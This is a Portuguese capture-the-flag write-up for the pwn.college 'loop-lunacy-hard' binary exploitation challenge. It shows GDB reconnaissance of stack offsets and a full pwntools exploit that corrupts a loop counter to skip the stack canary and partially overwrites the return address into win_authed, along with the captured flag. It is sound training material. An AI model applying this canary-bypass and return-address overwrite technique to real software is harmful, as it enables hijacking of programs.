









# pwn.college — Loop Lunacy Hard (Memory Corruption)
### Intro to Cybersecurity · Orange Belt · Binary Exploitation

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Binary Exploitation — Memory Corruption  
> **Técnicas:** Stack canary bypass · Local variable corruption · Partial overwrite · PIE bypass · Return address overwrite · Salto para dentro de função · Análise de registradores no GDB

---

## Descrição do Desafio

O desafio `loop-lunacy-hard` é a versão sem informações do `loop-lunacy-easy`. A vulnerabilidade central é idêntica — corromper a variável local `n` para reposicionar a escrita diretamente sobre o return address, pulando o canário — mas desta vez **o binário não imprime nenhum dado sobre o layout da memória**. Todo o reconhecimento precisa ser feito via GDB.



```
### Welcome to /challenge/loop-lunacy-hard! ###

Payload size: 100
Send your payload (up to 100 bytes)!
```

O exploit final é praticamente idêntico ao do nível easy — a única diferença está no PATH e nos 2 bytes menos significativos do partial overwrite, determinados pelo disassembly de `win_authed` neste binário.

---

## Análise com GDB — Mapeando a Memória

Como o binário não fornece nenhuma informação sobre o layout da stack, foi necessário usar o GDB para identificar três endereços:

1. O início do buffer de input
2. O offset de `n` em relação ao buffer
3. O offset do return address em relação ao buffer

### Passo 1 — Início do Buffer (via `read`)

Com um breakpoint antes do `call read@plt`, o registrador `$rsi` aponta para o destino do `read` — o início do buffer de input:



```
rdi    0x0                (stdin)
rsi    0x7ffce6814110     (início do buffer de input)
rdx    0x1                (1 byte por leitura)
```

O buffer começa em `0x7ffce6814110`.

### Passo 2 — Offset de `n` (via `cmp` após o `read`)

Logo após o `read`, o disassembly mostra a comparação que controla o loop:



```asm
mov   rax, QWORD PTR [rbp-0x68]   ; rax = ponteiro para n
mov   eax, DWORD PTR [rax]         ; eax = valor de n
movsxd rdx, eax                    ; rdx = n (signed extend)
mov   rax, QWORD PTR [rbp-0x78]   ; rax = size
cmp   rdx, rax                     ; compara n com size
jb    challenge+225                ; se n < size, continua o loop
```

O endereço de `n` está armazenado em `[rbp-0x68]`. Inspecionando esse ponteiro e calculando a diferença com o início do buffer:



```
(gdb) x/gx $rbp-0x68
0x7ffce6814108: 0x00007ffce681415c

(gdb) p/d (0x00007ffce681415c - 0x7ffce6814110)
$3 = 76
```

`n` está **76 bytes após o início do buffer** — exatamente o mesmo offset do nível easy.

### Passo 3 — Offset do Return Address (via `rbp+0x8`)

O return address da função `challenge` (o endereço para o qual ela retorna em `main`) está sempre em `rbp+0x8` na convenção x86-64. Calculando a diferença com o início do buffer:



```
(gdb) x/gx $rbp+0x8
0x7ffce6814178: 0x00005c28d13bcdb7

(gdb) p/d (0x7ffce6814178 - 0x7ffce6814110)
$4 = 104
```

O return address está **104 bytes após o início do buffer** — novamente igual ao nível easy.

---

## Confirmando a Lógica do Bypass — `cmp rdx, rax`

Com um breakpoint na instrução `cmp` que controla o loop, é possível confirmar que `rdx` contém o valor de `n` e `rax` contém o `size`:



```
rdx    0x1     (n = 1, bytes lidos até agora)
rax    0x64    (size = 100, limite declarado)
```

O loop continua enquanto `n < size`. Como `n` está no offset 76 e controlamos o byte escrito nessa posição, a lógica de bypass é idêntica à do nível easy: enviar `g` (ASCII 103) em `n` faz com que, após o incremento do `read`, `n` valha 104 — o offset exato do return address.

---

## A Verificação em `win_authed` — Encontrando o Offset Correto

O disassembly de `win_authed` neste binário revela a mesma verificação do nível easy:



```asm
1a3e:  endbr64
1a42:  push   rbp
1a43:  mov    rbp, rsp
1a46:  sub    rsp, 0x10
1a4a:  mov    DWORD PTR [rbp-0x4], edi
1a4d:  cmp    DWORD PTR [rbp-0x4], 0x1337   ← verificação
1a54:  jne    1b58 <win_authed+282>          ← pula para fora se falhar
1a5a:  lea    rdi, [rip+0x5a7]              ← início do trecho que imprime a flag
```

O alvo correto é o offset `0x1a5a` — logo após o `jne` — onde a função pressupõe autenticação válida. Diferente do nível easy (onde o alvo era `0x1c5d`), aqui os 2 bytes do partial overwrite são `p16(0x1a5a)`.

---

## Exploit Final

O exploit é praticamente idêntico ao do nível easy. As únicas diferenças são o `PATH` e o endereço alvo do partial overwrite:



```python
from pwn import *

PATH = '/challenge/loop-lunacy-hard'

context.log_level = "error"

j = 1
while True:
    print(f"Tentativa: {j}")
    p = process(PATH)

    p.sendline(b"106")       # size = 106: permite escrita até offset 105

    i = 0
    while i < 76:            # 76 bytes de padding até o offset de n
        p.sendline()
        i += 1

    p.send(b"g")             # g = 103 → após read: n = 104 → return address

    win_authed_addr = p16(0x1a5a)   # offset dentro de win_authed, após o jne
    p.send(win_authed_addr)

    out = p.recvall()

    if b"pwn.college" in out:
        inicio_flag = out.find(b"pwn.college")
        flag_em_diante = out[inicio_flag:]
        flag = flag_em_diante.split(b"\n")[0]
        print(f"A flag eh: {flag}")
        break

    j += 1
```

---

## Resultado Final



```
A flag eh: b'pwn.college{wTLKZb7UhtjbsEttkJ6B5jU-ypl.dZDMzwCOzYTNxEzW}'
```

---

## Resumo do Fluxo de Exploração

```
1. GDB → break no read → rsi = 0x7ffce6814110 (início do buffer)
2. GDB → disas challenge → [rbp-0x68] guarda ponteiro para n
3. GDB → p/d ([rbp-0x68] - buffer) = 76 → n está no offset 76
4. GDB → p/d (rbp+0x8 - buffer) = 104 → return address está no offset 104
5. GDB → cmp rdx, rax confirma lógica: n < size controla o loop
6. 'g' = 103 → sobrescreve n; após read: n = 104 → próxima escrita vai ao return address
7. disas win_authed → cmp 0x1337 + jne → alvo: 0x1a5a (após o jne)
8. Partial overwrite: p16(0x1a5a) sobre os 2 bytes inferiores do return address
9. Loop de brute-force (1/16 por tentativa) → flag obtida na tentativa 7
```

---

## Comparação entre Easy e Hard

| | loop-lunacy-easy | loop-lunacy-hard |
|---|---|---|
| Layout da stack fornecido | ✅ Sim | ❌ Não |
| Como obter início do buffer | Fornecido pelo binário | GDB: `$rsi` no `read` |
| Como obter offset de `n` | Fornecido pelo binário (76) | GDB: `[rbp-0x68]` − buffer = 76 |
| Como obter offset do return address | Fornecido pelo binário (104) | GDB: `rbp+0x8` − buffer = 104 |
| Offset alvo em `win_authed` | `0x1c5d` | `0x1a5a` |
| Estrutura do exploit | Idêntica | Idêntica |
| Tentativas até a flag | 22 | 7 |
